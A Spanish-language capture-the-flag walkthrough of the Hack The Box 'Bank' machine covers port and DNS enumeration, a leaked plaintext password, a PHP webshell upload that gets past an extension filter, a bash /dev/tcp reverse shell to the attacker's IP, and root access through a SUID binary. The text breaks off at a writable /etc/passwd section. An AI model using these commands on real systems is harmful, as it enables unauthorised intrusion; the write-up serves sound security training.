



# Bank

`Bank` es una máquina relativamente simple, sin embargo, una enumeración web adecuada es clave para encontrar los datos necesarios para la entrada. También existe un método de entrada no deseado, que muchos usuarios descubren antes de encontrar los datos correctos.

<figure><figcaption></figcaption></figure>

***

## Reconnaissance

Realizaremos un reconocimiento con **nmap** para ver los puertos que están expuestos en la máquina **Bank**. Este resultado lo almacenaremos en un archivo llamado `allPorts`.

```bash
❯ nmap -p- --open -sS --min-rate 1000 -vvv -Pn -n 10.10.10.29 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-16 21:47 CET
Initiating SYN Stealth Scan at 21:47
Scanning 10.10.10.29 [65535 ports]
Discovered open port 53/tcp on 10.10.10.29
Discovered open port 22/tcp on 10.10.10.29
Discovered open port 80/tcp on 10.10.10.29
Completed SYN Stealth Scan at 21:47, 12.53s elapsed (65535 total ports)
Nmap scan report for 10.10.10.29
Host is up, received user-set (0.035s latency).
Scanned at 2025-02-16 21:47:10 CET for 13s
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
53/tcp open  domain  syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 12.63 seconds
           Raw packets sent: 65535 (2.884MB) | Rcvd: 65541 (2.622MB)
```

A través de la herramienta de [`extractPorts`](https://pastebin.com/X6b56TQ8), la utilizaremos para extraer los puertos del archivo que nos generó el primer escaneo a través de `Nmap`. Esta herramienta nos copiará en la clipboard los puertos encontrados.

```bash
❯ extractPorts allPorts

[*] Extracting information...

	[*] IP Address: 10.10.10.29
	[*] Open ports: 22,53,80

[*] Ports copied to clipboard
```

Lanzaremos scripts de reconocimiento sobre los puertos encontrados y lo exportaremos en formato oN y oX para posteriormente trabajar con ellos. En el resultado, comprobamos que se encuentran abierta una página web de `Apache`, el servicio de `DNS` y `SSH`.

```bash
❯ nmap -sCV -p22,53,80 10.10.10.29 -A -oN targeted -oX targetedXML
Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-16 21:48 CET
Nmap scan report for bank.htb (10.10.10.29)
Host is up (0.071s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 08:ee:d0:30:d5:45:e4:59:db:4d:54:a8:dc:5c:ef:15 (DSA)
|   2048 b8:e0:15:48:2d:0d:f0:f1:73:33:b7:81:64:08:4a:91 (RSA)
|   256 a0:4c:94:d1:7b:6e:a8:fd:07:fe:11:eb:88:d5:16:65 (ECDSA)
|_  256 2d:79:44:30:c8:bb:5e:8f:07:cf:5b:72:ef:a1:6d:67 (ED25519)
53/tcp open  domain  ISC BIND 9.9.5-3ubuntu0.14 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.9.5-3ubuntu0.14-Ubuntu
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
| http-title: HTB Bank - Login
|_Requested resource was login.php
|_http-server-header: Apache/2.4.7 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.10 - 4.11, Linux 3.2 - 4.14
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 22/tcp)
HOP RTT      ADDRESS
1   66.51 ms 10.10.16.1
2   32.33 ms bank.htb (10.10.10.29)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.64 seconds
```

Transformaremos el archivo generado `targetedXML` para transformar el XML en un archivo HTML para posteriormente montar un servidor web y visualizarlo.

```bash
❯ xsltproc targetedXML > index.html

❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Accederemos a[ http://localhost](http://localhost) y verificaremos el resultado en un formato más cómodo para su análisis.

<figure><figcaption></figcaption></figure>

## Web Enumeration

Realizaremos una comprobación de las tecnologías que son utilizadas en el sitio web.

```bash
❯ whatweb http://10.10.10.29
http://10.10.10.29 [200 OK] Apache[2.4.7], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.7 (Ubuntu)], IP[10.10.10.29], Title[Apache2 Ubuntu Default Page: It works]
```

Al acceder a[ http://10.10.10.29](http://10.10.10.29), nos encontramos con la página que viene con `Apache` por defecto.

<figure><figcaption></figcaption></figure>

Realizamos una enumeración de directorios y páginas web a través de la herramienta de `feroxbuster`, pero no logramos obtener resultado ninguno.

```bash
❯ feroxbuster -u http://10.10.10.29 -t 200 -C 500,502
                                                                                                                                                                                                                                      
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.11.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.10.10.29
 🚀  Threads               │ 200
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 💢  Status Code Filters   │ [500, 502]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.11.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
403      GET       10l       30w        -c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
404      GET        9l       32w        -c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET       14l       74w     6216c http://10.10.10.29/icons/ubuntu-logo.png
200      GET      378l      980w    11510c http://10.10.10.29/
404      GET        9l       33w      285c http://10.10.10.29/Donate%20Cash
404      GET        9l       33w      285c http://10.10.10.29/Site%20Assets
[#################>--] - 14s    26939/30007   2s      found:4       errors:91     
[#################>--] - 14s    26921/30002   1886/s  http://10.10.10.29/                                      [##################>-] - 14s    27120/30007   2s      found:4       errors:91     
[##################>-] - 14s    27105/30002   1892/s  http://10.10.10.29/                                      [##################>-] - 14s    27331/30007   2s      found:4       errors:91     
[##################>-] - 14s    27304/30002   1900/s  http://10.10.10.29/                                      [####################] - 20s    30007/30007   0s      found:4       errors:91     
[####################] - 20s    30002/30002   1491/s  http://10.10.10.29/      
```

### Virtual Hosting

Probamos de aplicar `Virtual Hosting` para verificar si al acceder a través de http://bank.htb se nos mostraba una página diferente.

El nombre de dominio lo podemos deducir de las máquinas que ya hemos realizado en HTB, pero también se nos presentaba esta información en la enumeración de `Nmap` al realizar el `traceroute`.

```bash
❯ cat /etc/hosts | grep bank
10.10.10.29 bank.htb 
```


**Virtual Hosting** es una técnica que permite que un solo servidor web aloje múltiples sitios web, utilizando diferentes nombres de dominio, direcciones IP o rutas. Existen dos tipos principales:

1. **Virtual Hosting basado en nombre**: El servidor identifica qué sitio mostrar en función del dominio utilizado en la solicitud.
2. **Virtual Hosting basado en IP**: Cada sitio tiene una dirección IP distinta, pero todos comparten el mismo servidor.

Esta técnica optimiza los recursos, permitiendo la gestión de varios sitios en una sola máquina, lo que es esencial para el alojamiento web moderno.


### DNS Enumeration

Realizaremos una enumeración a través del `DNS` que se encuentra expuesto, para verificar si logramos obtener más información al respecto de nombres de dominio.

El comando `dig A @10.10.10.29 bank.htb` se utiliza para consultar un servidor DNS específico (en este caso, 10.10.10.29) para obtener el registro A (dirección IPv4) de un dominio, en este caso, _bank.htb_. Esto es útil para verificar la resolución de nombres de dominio y asegurarse de que el servidor DNS está configurado correctamente.

```bash
❯ dig A @10.10.10.29 bank.htb

; <<>> DiG 9.20.4-4-Debian <<>> A @10.10.10.29 bank.htb
; (1 server found)
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 7069
;; flags: qr aa rd; QUERY: 1, ANSWER: 1, AUTHORITY: 1, ADDITIONAL: 2
;; WARNING: recursion requested but not available

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4096
;; QUESTION SECTION:
;bank.htb.			IN	A

;; ANSWER SECTION:
bank.htb.		604800	IN	A	10.10.10.29

;; AUTHORITY SECTION:
bank.htb.		604800	IN	NS	ns.bank.htb.

;; ADDITIONAL SECTION:
ns.bank.htb.		604800	IN	A	10.10.10.29

;; Query time: 31 msec
;; SERVER: 10.10.10.29#53(10.10.10.29) (UDP)
;; WHEN: Sun Feb 16 21:51:35 CET 2025
;; MSG SIZE  rcvd: 86
```

El comando `dig AAAA @10.10.10.29 bank.htb` consulta el servidor DNS en la dirección 10.10.10.29 para obtener el registro AAAA, que corresponde a la dirección IPv6 del dominio _bank.htb_. Este tipo de consulta se utiliza para obtener la dirección IPv6 asociada a un nombre de dominio.

```bash
❯ dig AAAA @10.10.10.29 bank.htb

; <<>> DiG 9.20.4-4-Debian <<>> AAAA @10.10.10.29 bank.htb
; (1 server found)
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 58762
;; flags: qr aa rd; QUERY: 1, ANSWER: 0, AUTHORITY: 1, ADDITIONAL: 1
;; WARNING: recursion requested but not available

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4096
;; QUESTION SECTION:
;bank.htb.			IN	AAAA

;; AUTHORITY SECTION:
bank.htb.		604800	IN	SOA	bank.htb. chris.bank.htb. 5 604800 86400 2419200 604800

;; Query time: 32 msec
;; SERVER: 10.10.10.29#53(10.10.10.29) (UDP)
;; WHEN: Sun Feb 16 21:52:06 CET 2025
;; MSG SIZE  rcvd: 79
```

El comando `dig any bank.htb @10.10.10.29` realiza una consulta DNS de tipo _ANY_ al servidor DNS en la dirección 10.10.10.29 para obtener todos los registros asociados al dominio _bank.htb_. Esto incluye registros de tipo A, AAAA, MX, TXT, entre otros.

```bash
❯ dig any bank.htb @10.10.10.29

; <<>> DiG 9.20.4-4-Debian <<>> any bank.htb @10.10.10.29
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 19558
;; flags: qr aa rd; QUERY: 1, ANSWER: 3, AUTHORITY: 0, ADDITIONAL: 2
;; WARNING: recursion requested but not available

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4096
;; QUESTION SECTION:
;bank.htb.			IN	ANY

;; ANSWER SECTION:
bank.htb.		604800	IN	SOA	bank.htb. chris.bank.htb. 5 604800 86400 2419200 604800
bank.htb.		604800	IN	NS	ns.bank.htb.
bank.htb.		604800	IN	A	10.10.10.29

;; ADDITIONAL SECTION:
ns.bank.htb.		604800	IN	A	10.10.10.29

;; Query time: 199 msec
;; SERVER: 10.10.10.29#53(10.10.10.29) (TCP)
;; WHEN: Sun Feb 16 21:52:58 CET 2025
;; MSG SIZE  rcvd: 128
```

El comando `dig axfr bank.htb @10.10.10.29` realiza una consulta de transferencia de zona DNS (_AXFR_) al servidor DNS en la dirección 10.10.10.29 para obtener todos los registros DNS asociados al dominio _bank.htb_. Esto generalmente se usa para obtener una copia completa de la zona DNS, pero puede ser restringido por el servidor para evitar la divulgación de información sensible, como en este caso.

```bash
❯ dig axfr bank.htb@10.10.10.29

; <<>> DiG 9.20.4-4-Debian <<>> axfr bank.htb@10.10.10.29
;; global options: +cmd
; Transfer failed.
```

## Initial Access

### Information Leakage

Realizaremos una comprobación de las tecnologías que son utilizadas en el sitio web.

```bash
❯ whatweb http://bank.htb
http://bank.htb [302 Found] Apache[2.4.7], Bootstrap, Cookies[HTBBankAuth], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.7 (Ubuntu)], IP[10.10.10.29], JQuery, PHP[5.5.9-1ubuntu4.21], RedirectLocation[login.php], Script, X-Powered-By[PHP/5.5.9-1ubuntu4.21]
http://bank.htb/login.php [200 OK] Apache[2.4.7], Bootstrap, Cookies[HTBBankAuth], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.7 (Ubuntu)], IP[10.10.10.29], JQuery, PHP[5.5.9-1ubuntu4.21], PasswordField[inputPassword], Script, Title[HTB Bank - Login], X-Powered-By[PHP/5.5.9-1ubuntu4.21]
```

Al acceder a[ http://bank.htb](http://bank.htb), nos encontramos con la siguiente página web que nos proporciona un panel de autenticación. Intentamos realizar un `Authentication Bypass` con inyecciones SQL, pero no obtuvimos resultado.

<figure><figcaption></figcaption></figure>

Realizamos una enumeración de la página web en la cual nos proporcionó el siguiente resultado con diversas páginas y directorios interesantes.

```bash
❯ feroxbuster -u http://bank.htb/ -t 200 -C 500,502,404
                                                                                                               
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.11.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://bank.htb/
 🚀  Threads               │ 200
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 💢  Status Code Filters   │ [500, 502, 404]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.11.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET        9l       32w        -c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
403      GET       10l       30w        -c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
301      GET        9l       28w      301c http://bank.htb/inc => http://bank.htb/inc/
301      GET        9l       28w      304c http://bank.htb/assets => http://bank.htb/assets/
301      GET        9l       28w      305c http://bank.htb/uploads => http://bank.htb/uploads/
200      GET        1l      287w    16994c http://bank.htb/assets/js/sweetalert.min.js
200      GET        7l      432w    37045c http://bank.htb/assets/js/bootstrap.min.js
200      GET        0l        0w        0c http://bank.htb/inc/user.php
200      GET       23l       38w      622c http://bank.htb/inc/footer.php
200      GET       29l      182w    14288c http://bank.htb/assets/img/Thumbs.db
200      GET       48l       93w     1024c http://bank.htb/assets/css/login.css
200      GET       13l       53w     5927c http://bank.htb/assets/img/htb-logo.png
200      GET        4l     1412w    95785c http://bank.htb/assets/js/jquery.js
302      GET      188l      319w     7322c http://bank.htb/ => login.php
200      GET     2377l     6406w    69707c http://bank.htb/assets/js/bootstrap.js
200      GET      935l     2309w    22957c http://bank.htb/assets/css/sweetalert.css
200      GET      106l      587w    35387c http://bank.htb/assets/fonts/glyphicons-halflings-regular.eot
200      GET     1672l     2840w    26651c http://bank.htb/assets/font-awesome/css/font-awesome.css
200      GET        4l       56w    21984c http://bank.htb/assets/font-awesome/css/font-awesome.min.css
200      GET     6757l    16077w   146010c http://bank.htb/assets/css/bootstrap.css
200      GET      288l    13959w   108738c http://bank.htb/assets/fonts/glyphicons-halflings-regular.svg
200      GET     1673l     3210w   162920c http://bank.htb/assets/font-awesome/fonts/FontAwesome.otf
200      GET      520l    42211w   287007c http://bank.htb/assets/font-awesome/fonts/fontawesome-webfont.svg
302      GET        0l        0w        0c http://bank.htb/inc/header.php => login.php
200      GET        0l        0w        0c http://bank.htb/inc/ticket.php
200      GET      227l      378w     3480c http://bank.htb/assets/css/htb-bank.css
200      GET       16l       42w      332c http://bank.htb/assets/font-awesome/scss/_bordered-pulled.scss
200      GET       19l       44w      378c http://bank.htb/assets/font-awesome/scss/_list.scss
200      GET       14l       34w      695c http://bank.htb/assets/font-awesome/scss/_path.scss
200      GET       20l       59w      672c http://bank.htb/assets/font-awesome/scss/_rotated-flipped.scss
200      GET      561l     1133w    15592c http://bank.htb/assets/font-awesome/scss/_variables.scss
200      GET      552l     2489w    35004c http://bank.htb/assets/font-awesome/scss/_icons.scss
200      GET      227l     1523w   117910c http://bank.htb/assets/font-awesome/fonts/fontawesome-webfont.woff
200      GET      233l     1412w    99659c http://bank.htb/assets/font-awesome/fonts/fontawesome-webfont.eot
200      GET     1063l     4200w   142944c http://bank.htb/assets/font-awesome/fonts/fontawesome-webfont.ttf
200      GET       11l       47w      419c http://bank.htb/assets/font-awesome/scss/_core.scss
301      GET        9l       28w      313c http://bank.htb/assets/js/theme => http://bank.htb/assets/js/theme/
```

Volveremos a realizar la enumeración de directorios, pero esta vez con la herramienta de `gobuster`.

Al realizar la enumeración, verificamos que se nos muestra distintos directorios, entre los cuales nos llama la atención el nombre de `balance-transfer`.


Una transferencia de saldo es la transferencia del saldo de una cuenta a otra cuenta, a menudo mantenida en otra institución. Se utiliza con mayor frecuencia al describir una transferencia de saldo de una tarjeta de crédito.


```bash
❯ gobuster dir -u http://bank.htb/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 200 -b 503,404
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://bank.htb/
[+] Method:                  GET
[+] Threads:                 200
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404,503
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/assets               (Status: 301) [Size: 304] [--> http://bank.htb/assets/]
/inc                  (Status: 301) [Size: 301] [--> http://bank.htb/inc/]
/uploads              (Status: 301) [Size: 305] [--> http://bank.htb/uploads/]
/server-status        (Status: 403) [Size: 288]
/balance-transfer     (Status: 301) [Size: 314] [--> http://bank.htb/balance-transfer/]
Progress: 220547 / 220548 (100.00%)
===============================================================
Finished
===============================================================
```

Al acceder a [http://bank.htb/balance-transfer/](http://bank.htb/balance-transfer/), verificamos un gran listado de archivos `.acc` que parecen ser transferencias bancarias.


La extensión de archivo `.acc` no tiene un solo significado definido y puede variar dependiendo del contexto en el que se use. Algunas posibles aplicaciones de los archivos con esta extensión son:

1. **Archivos de base de datos**: En algunas aplicaciones, los archivos `.acc` pueden estar asociados a bases de datos o aplicaciones de contabilidad.
2. **Archivos de configuración**: En otros casos, pueden ser archivos de configuración específicos para programas o sistemas particulares.
3. **Archivos de acceso**: Algunas veces, esta extensión se usa para archivos que almacenan información relacionada con el acceso o autenticación en un sistema.


<figure><figcaption></figcaption></figure>

Al realizar la comprobación de uno de esos archivos, verificamos que se trata de un reporte bancario en el cual aparecen datos del usuario, contraseña, transacciones etc. Este contenido se encuentra encriptado.

```bash
❯ curl -s -X GET 'http://bank.htb/balance-transfer/0a0b2b566c723fce6c5dc9544d426688.acc'
++OK ENCRYPT SUCCESS
+=================+
| HTB Bank Report |
+=================+

===UserAccount===
Full Name: czeCv3jWYYljNI2mTedDWxNCF37ddRuqrJ2WNlTLje47X7tRlHvifiVUm27AUC0ll2i9ocUIqZPo6jfs0KLf3H9qJh0ET00f3josvjaWiZkpjARjkDyokIO3ZOITPI9T
Email: 1xlwRvs9vMzOmq8H3G5npUroI9iySrrTZNpQiS0OFzD20LK4rPsRJTfs3y1VZsPYffOy7PnMo0PoLzsdpU49OkCSSDOR6DPmSEUZtiMSiCg3bJgAElKsFmlxZ9p5MfrE
Password: TmEnErfX3w0fghQUCAniWIQWRf1DutioQWMvo2srytHOKxJn76G4Ow0GM2jgvCFmzrRXtkp2N6RyDAWLGCPv9PbVRvbn7RKGjBENW3PJaHiOhezYRpt0fEV797uhZfXi
CreditCards: 5
Transactions: 93
Balance: 905948 .
===UserAccount===
```

Desde la propia página web, tratamos de comprobar si alguno de esos archivos tenía un tamaño distinto, con lo cual probamos en darle a la opción de `Size` y se ordenó alfabéticamente de menor a mayor tamaño.

En el resultado obtenido, comprobamos que solamente uno de ellos tenía un tamaño menor al resto, lo cual nos llevó a sospechar que quizás tuviera otro contenido sensible, etc.

<figure><figcaption></figcaption></figure>

Al realizar la comprobación del archivo, verificamos que aparecían las credenciales del usuario `chris` en texto plano. Al parecer, la encriptación no funcionó en ese archivo, por ese motivo el tamaño inferior al resto.

```bash
❯ curl -s -X GET 'http://bank.htb/balance-transfer/68576f20e9732f1b2edc4df5b8533230.acc'
--ERR ENCRYPT FAILED
+=================+
| HTB Bank Report |
+=================+

===UserAccount===
Full Name: Christos Christopoulos
Email: chris@bank.htb
Password: !##HTBB4nkP4ssw0rd!##
CreditCards: 5
Transactions: 39
Balance: 8842803 .
===UserAccount===
```

También podemos realizar esa comprobación a través del siguiente comando de `cURL`, en el cual filtrábamos por el nombre del archivo junto a su tamaño y a través de expresiones regulares, eliminábamos aquellos resultados repetitivos.

```bash
❯ curl -s -X GET 'http://bank.htb/balance-transfer/' | html2text | awk '{print $3, $5}' | paste -d ' ' - - | grep -vE '582|583|584|585' | sort
   
  Server bank.htb
09ed7588d1cd47ffca297cc7dac22c52.acc 581  
68576f20e9732f1b2edc4df5b8533230.acc 257  
941e55bed0cb8052e7015e7133a5b9c7.acc 581  
Directory -  
of ****** Last Description
```

Volvemos al panel de autenticación de [http://bank.htb ](http://bank.htb)y probamos de autenticarnos con las credenciales del usuario encontrado.

<figure><figcaption></figcaption></figure>

Verificamos que hemos logrado acceso a la cuenta de banco del usuario `chris`. Entre la información presente, podemos visualizar el saldo disponible, transacciones, etc.

<figure><figcaption></figcaption></figure>

### Abusing File Upload (RCE)

Ingresando al apartado de `Support`, comprobamos que teníamos la capacidad de realizar un ticket y subir un archivo, con lo cual nos llevó a pensar en subir un archivo malicioso (webshell) para lograr tener acceso al sistema.

<figure><figcaption></figcaption></figure>

Al intentar subir directamente un archivo con extensión `.php`, se nos mostró el siguiente mensaje de error indicando que solamente estaba permitido la subida de imágenes.

<figure><figcaption></figcaption></figure>

Tratamos de cambiar el `Content-Type` y la extensión del archivo a una que nos acepte el servidor. Al enviar la solicitud, se nos indicó que se había realizado correctamente la solicitud.

<figure><figcaption></figcaption></figure>

Comprobamos en el panel de `My Tickets` que se ha creado nuestro ticket en el cual dispone de un `Attachment` que es el archivo que hemos logrado subir.

<figure><figcaption></figcaption></figure>

Al acceder al archivo, se nos mostraba la `URL` en la cual se almacenaban estos archivos y en este caso, como realmente no era una imagen, nos apareció el siguiente mensaje de error.

<figure><figcaption></figcaption></figure>

Probamos distintas manera de intentar eludir la restricción del `File Upload`, pero en ninguna obtuvimos resultado...

<figure><figcaption></figcaption></figure>

Revisando el código fuente de http://bank.htb/support.htb, verificamos que aparece una línea comentada en la cual se informa que han añadido la extensión `.htb` para que pueda ejecutar `php` con propósitos de debug, algo bastante inusual...

<figure><figcaption></figcaption></figure>

Por lo tanto, decidimos en intentar subir un archivo con extensión `.htb` tal y como se nos indicaba, verificamos que se logra subir correctamente el archivo malicioso de nuestra **webshell**.

<figure><figcaption></figcaption></figure>

Realizamos una comprobación para verificar que tenemos la capacidad de ejecutar comandos a través de la **webshell** subida.

```bash
❯ curl -s 'http://bank.htb/uploads/gzzcoo.htb?cmd=id'
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Al verificar el **RCE**, el siguiente paso será lograr obtener acceso al sistema. Nos pondremos en escucha con `nc`.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
```

A través del primer comando, lo que realizaremos es codificar nuestra sintaxis de la reverse shell en formato URL, para no tener problemas a la hora de ejecutarlo a través de la **webshell**.

Una vez obtenido el comando a ejecutar, haremos uso de la **webshell** para otorgarnos acceso al sistema.

```bash
❯ echo -n 'bash -c "bash -i >& /dev/tcp/10.10.16.3/443 0>&1"' | jq -sRr @uri
bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.16.3%2F443%200%3E%261%22

❯ curl -s 'http://bank.htb/uploads/gzzcoo.htb?cmd=bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.16.3%2F443%200%3E%261%22'
```

Verificamos que finalmente logramos acceso al equipo y podemos visualizar la flag de **user.txt**.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.3] from (UNKNOWN) [10.10.10.29] 60798
bash: cannot set terminal process group (1073): Inappropriate ioctl for device
bash: no job control in this shell
www-data@bank:/var/www/bank/uploads$ cat /home/chris/user.txt
ab47a4cf55**********************
```

Al obtener la reverse shell, mejoramos la calidad de la shell con los siguientes pasos para obtener una TTY interactiva.

```bash
www-data@bank:/var/www/bank/uploads$ script /dev/null -c bash
script /dev/null -c bash
www-data@bank:/var/www/bank/uploads$ ^Z
zsh: suspended  nc -nlvp 443
❯ stty raw -echo;fg
[1]  + continued  nc -nlvp 443
                                reset xterm
www-data@bank:/var/www/bank/uploads$ export TERM=xterm
www-data@bank:/var/www/bank/uploads$ export SHELL=bash
www-data@bank:/var/www/bank/uploads$ stty rows 46 columns 230
```

## Privilege Escalation

### Abusing SUID Binary

Realizaremos una verificación inicial de los privilegios que dispone el usuario actual. Verificamos que no disponemos de algún grupo interesante ni permisos de `sudoers`.

Al verificar si había algún permiso de `SUID` sobre algún binario, comprobamos la existencia de un binario inusual llamado `/var/htb/bin/emergency`.

```bash
www-data@bank:/var/www/bank/uploads$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

www-data@bank:/var/www/bank/uploads$ sudo -l
[sudo] password for www-data: 

www-data@bank:/var/www/bank/uploads$ find / -perm -4000 2>/dev/null
/var/htb/bin/emergency
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/at
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/traceroute6.iputils
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/mtr
/usr/sbin/uuidd
/usr/sbin/pppd
/bin/ping
/bin/ping6
/bin/su
/bin/fusermount
/bin/mount
/bin/umount
```

Verificamos el propietario de este binario y nos encontramos que es `root`.

```bash
www-data@bank:/var/www/bank/uploads$ ls -l /var/htb/bin/emergency
-rwsr-xr-x 1 root root 112204 Jun 14  2017 /var/htb/bin/emergency
```

Probamos de utilizar el binario para verificar el funcionamiento de este. Inesperadamente, este binario nos proporcionó acceso como `root` con lo cual pudimos visualizar la flag de **root.txt**.

Al parecer este binario era como una especie de `backdoor` que habrían dejado los administradores del sistema.&#x20;

```bash
www-data@bank:/var/www/bank/uploads$ /var/htb/bin/emergency
# whoami
root
# cat /root/root.txt
66b882036c79fc**********************
```

### Writable Passwd File

Por otro lado, otra manera de realizar el PrivEsc en esta máquina es la siguiente.

Revisando los archivos que teníamos capacidad de escritura, nos encontramos que podíamos escribir el archivo `/etc/passwd`.

```bash
